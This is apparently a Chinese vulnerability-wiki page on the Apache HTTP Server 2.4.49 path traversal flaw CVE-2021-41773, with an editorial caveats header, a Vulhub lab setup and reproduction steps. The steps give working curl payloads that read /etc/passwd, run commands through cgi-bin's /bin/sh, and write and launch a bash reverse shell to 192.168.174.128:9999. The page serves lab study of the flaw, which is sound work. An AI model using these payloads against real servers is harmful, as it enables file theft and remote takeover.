



# Apache HTTP Server 2.4.49 路径穿越漏洞 CVE-2021-41773

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：仅2.4.49、穿越目录允许访问非默认，RCE另需CGI/cgid及可执行目标
- 证据范围：清楚前置访问控制条件和file-read/RCE分支，有独立版本实验价值

### 本次正文校订

- 按实际内容修正 5 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- version错抽docker-compose build
- /icons应具体Alias映射条件而非任意存在目录
- 缺明确修复及后续2.4.50绕过关联；脚本写入需说明留存影响
- 图片未视检，不自行认定复现完成

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache HTTP Server是Apache基金会开源的一款流行的HTTP服务器。在其2.4.49版本中，引入了一个路径穿越漏洞，满足下面两个条件的Apache服务器将会受到影响：

- 版本等于2.4.49
- 穿越的目录允许被访问，比如配置了`<Directory />Require all granted</Directory>`。（默认情况下是不允许的）

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

参考链接：

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/ptswarm/status/1445376079548624899
- https://twitter.com/HackerGautam/status/1445412108863041544
- https://twitter.com/snyff/status/1445565903161102344

## 环境搭建

Vulhub执行如下命令编译及运行一个存在漏洞的Apache HTTPd 2.4.49版本服务器：

```shell
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Apache默认的`It works!`页面。

## 漏洞复现

使用如下CURL命令来发送Payload（注意其中的`/icons/`必须是一个存在且可访问的目录）：

```shell
curl -v --path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

> `-v`参数输出通信的整个过程，用于调试。

可见，成功读取到`/etc/passwd`：




在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：

```shell
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```




写入反弹shell

```shell
curl -v --data "echo;echo 'bash -i >& /dev/tcp/192.168.174.128/9999 0>&1'>> /tmp/shell.sh" 'http://192.168.174.128:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

执行反弹shell

```shell
curl -v --data "echo;bash /tmp/shell.sh" 'http://192.168.174.128:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
